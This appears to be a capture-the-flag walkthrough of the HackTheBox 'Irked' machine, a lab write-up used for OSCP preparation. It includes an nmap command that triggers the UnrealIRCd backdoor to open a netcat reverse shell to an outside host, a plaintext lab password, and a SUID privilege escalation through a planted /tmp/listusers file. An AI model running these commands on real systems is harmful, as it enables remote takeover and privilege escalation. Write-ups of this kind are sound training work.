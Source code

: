 ```yaml
---
layout: post
title: HackTheBox - Irked
date: 2020-12-29 14:15:34 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, backdoor, UnrealIRCd, steganography, linpeas, SUID, decompilation, ghidra, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/irked/Irked.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Irked-full-port-scan.txt 10.10.10.117
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33669/tcp6  status
|   100024  1          43204/udp6  status
|   100024  1          43678/tcp   status
|_  100024  1          60648/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
43678/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache/2.4.10 (port 80)

![web](/assets/img/htb/machines/linux/easy/irked/web.png)

![source](/assets/img/htb/machines/linux/easy/irked/source.png)

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/irked/dirb.png)

![manual](/assets/img/htb/machines/linux/easy/irked/manual.png)

Nothing seems vulnerable on the Apache server. What about IRC ? 

### UnrealIRCd (port 6697, 8067, 65534)

According to the [RFC 1459](https://tools.ietf.org/html/rfc1459#section-4.1), in order to discuss with an IRC server we have to send 3 information: `PASS`, `NICK` and `USER`.

![RFC 1459](/assets/img/htb/machines/linux/easy/irked/RFC.png)

Let's send them to the target:

![irc](/assets/img/htb/machines/linux/easy/irked/irc.png)

Now we know **UnrealIRCd**'s version: `3.2.8.1`.

#### Manual exploit

By looking for exploits on this specific version, I came across this article describing [a backdoor in UnrealIRCd](https://lwn.net/Articles/392201/):

![backdoor](/assets/img/htb/machines/linux/easy/irked/backdoor.png)

Indeed, if we use `searchsploit` to find IRC's exploits the first one is about this backdoor:

![searchsploit](/assets/img/htb/machines/linux/easy/irked/searchsploit.png)

Let's try to exploit this vuln manually. We have to send a payload containing `AB + <command that we want to run>`.

- ICMP test:

![icmp-test](/assets/img/htb/machines/linux/easy/irked/icmp-test.png)

- Reverse shell:

![reverse-shell](/assets/img/htb/machines/linux/easy/irked/reverse-shell.png)

> **Note**: we could have used `metasploit`, or  `nmap` with the following options `--script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"`

## User (ircd)

{% highlight bash %}
ircd@irked:~/Unreal3.2$ cd /home
ircd@irked:/home$ ls -la
total 16                                      
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov 
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd 
ircd@irked:/home/$ cd djmardov
ircd@irked:/home/djmardov$ cd Documents
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$
{% endhighlight %}

Okay so we have to privesc to **djmardov**'s account in order to read his `user.txt`. What's inside `.backup`?

{% highlight bash %}
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
{% endhighlight %}

There is mention of steg which corresponds to steganography.

The only file that I think contains a secret is this image on the web page. Let's download it, and run `steghide` with the password `UPupDOWNdownLRlrBAbaSSss` found in `.backup`:

![pass](/assets/img/htb/machines/linux/easy/irked/pass.png)

`Kab6h+m+bbp2J:HG` is certainly the password of **djmardov**.

## User (djmardov)

Indeed we can use this password to log in with SSH:

![ssh](/assets/img/htb/machines/linux/easy/irked/ssh.png)

- Flag:

{% highlight bash %}
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

We cannot run `sudo`:

{% highlight bash %}
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
{% endhighlight %}

If we take a closer look at the SUID files, we can see that `exim4` and` viewuser` are the most recently updated ones.

![SUID](/assets/img/htb/machines/linux/easy/irked/SUID.png)

I copied `viewuser` to my machine _(because I was more intrigued by this binary than exim4 which is a known Mail Transfer Agent)_ and I opened it with `ghidra`.

![scp](/assets/img/htb/machines/linux/easy/irked/scp.png)

Here is the disassembled main function:

![ghidra disassembled main](/assets/img/htb/machines/linux/easy/irked/ghidra-main.png)

> **Note**: we could also use `ltrace`.

`setuid(0)` is set just before `system("/tmp/listusers")`

So we just have to put a malicious content in `/tmp/listusers` and then execute `viewuser`.

## Root

{% highlight bash %}
djmardov@irked:/tmp$ echo "/bin/bash" > /tmp/listusers; chmod +x /tmp/listusers; viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-12-29 03:32 (:0)
djmardov pts/0        2020-12-29 04:05 (10.10.14.7)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
{% endhighlight %}

___

## Useful links

- [A backdoor in UnrealIRCd](https://lwn.net/Articles/392201/)
